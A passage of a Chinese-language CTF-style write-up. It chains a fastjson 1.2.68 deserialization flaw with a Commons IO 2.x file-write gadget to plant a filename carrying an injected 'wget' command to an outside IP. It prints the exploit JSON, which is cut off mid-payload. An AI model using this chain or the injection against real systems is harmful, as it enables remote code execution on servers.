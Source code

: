 随后看到源码，存在一个fastjson反序列化，并且会return结果，然后如果在`/tmp`目录下存在`.8.bak`结尾的文件时会有一个命令执行
![](https://img-blog.csdnimg.cn/ecc476d039674dac812147ec744830b6.png)

#### 方法一
如果文件名可控，就可以任意命令执行了，即：
```bash
test.8.bak
bash -c cp$IFS/tmp/test.8.bak$IFS/tmp/test.8

a;wget${IFS}192.168.111.1:8000;#test.8.bak
bash -c cp$IFS/tmp/a;wget${IFS}192.168.111.1:8000;#test.8.bak$IFS/tmp/a;wget${IFS}192.168.111.1:8000;#test.8
```
那么就需要往`/tmp`目录下写文件，使用`Commons IO 2.x`写文件的链子
参考：[Fastjson 1.2.68 反序列化漏洞 Commons IO 2.x 写文件利用链挖掘分析](https://mp.weixin.qq.com/s/6fHJ7s6Xo4GEdEGpKFLOyg)
最终的exp为：
```java
{
  "x":{
    "@type":"com.alibaba.fastjson.JSONObject",
    "input":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.ReaderInputStream",
      "reader":{
        "@type":"org.apache.commons.io.input.CharSequenceReader",
        "charSequence":{"@type":"java.lang.String""aaaa"},
      "charsetName":"UTF-8",
      "bufferSize":1024
    },
    "branch":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.output.WriterOutputStream",
      "writer":{
        "@type":"org.apache.commons.io.output.FileWriterWithEncoding",
        "file":"/tmp/a;wget${IFS}192.168.111.1:8000;#test.8.bak",
        "encoding":"UTF-8",
        "append": false
      },
      "charsetName":"UTF-8",
      "bufferSize": 1024,
      "writeImmediately": true
    },
    "trigger":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
    "trigger2":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
```